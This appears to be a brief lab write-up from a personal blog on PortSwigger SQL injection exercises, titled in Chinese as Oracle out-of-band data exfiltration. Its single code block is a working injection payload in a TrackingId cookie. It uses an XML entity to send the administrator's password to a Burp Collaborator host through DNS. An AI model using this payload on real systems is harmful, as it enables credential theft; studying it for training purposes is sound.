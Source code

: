 oracle数据库带外交互泄露数据

payload:

```javascript
TrackingId=wSR0EMmzIveEzi7k'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.n6uac1qxzsv0xqtqk04q6v0zyq4js8.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/9AEADE67B2494A78B48B05D38A4A66D6clipboard.png)

